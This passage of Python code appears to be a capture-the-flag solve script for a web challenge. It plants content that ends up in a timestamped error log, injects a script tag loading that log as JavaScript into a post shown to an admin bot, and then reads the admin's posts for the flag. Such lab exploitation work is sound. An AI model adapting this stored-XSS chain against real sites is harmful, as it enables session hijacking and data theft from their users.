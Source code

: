 ```py
  r = session.post(f'{TARGET}/api/posts', json=post)
  assert r.status_code == 200

  r = session.post(f'{TARGET}/api/report')
  assert r.status_code == 200
  date = datetime.datetime.strptime(r.headers['Date'], '%a, %d %b %Y %H:%M:%S GMT')
  time.sleep(WAIT_TIME_SEC)

  r = session.delete(f'{TARGET}/api/posts/all', json=post)
  assert r.status_code == 200

  for i in range(WAIT_TIME_SEC):
    date += datetime.timedelta(seconds=1)
    timeStr = date.strftime('%Y-%m-%d %H:%M:%S')
    r = session.get(f'{TARGET}/static/logs/{timeStr}.txt', json=user)
    if r.status_code == 200:
      print(timeStr)
      return timeStr
  raise Exception('Failed to make error log')

def exec_script(timeStr):
  session = requests.Session()
  r = session.post(f'{TARGET}/api/login', json=user)
  assert r.status_code == 200

  post = {
    'content': f"<script src='http://localhost:1337/static/logs/{timeStr}.txt'></script>",
    'hidden': False
  }
  r = session.post(f'{TARGET}/api/posts', json=post)
  assert r.status_code == 200

  r = session.post(f'{TARGET}/api/report')
  assert r.status_code == 200
  time.sleep(WAIT_TIME_SEC)

def get_flag():
  session = requests.Session()
  r = session.post(f'{TARGET}/api/login', json=user)
  assert r.status_code == 200

  r = session.get(f'{TARGET}/posts/view/admin')
  print(r.text)

if __name__ == '__main__':
  register_user()
  timeStr = make_error_log()
  exec_script(timeStr)
  get_flag()
```
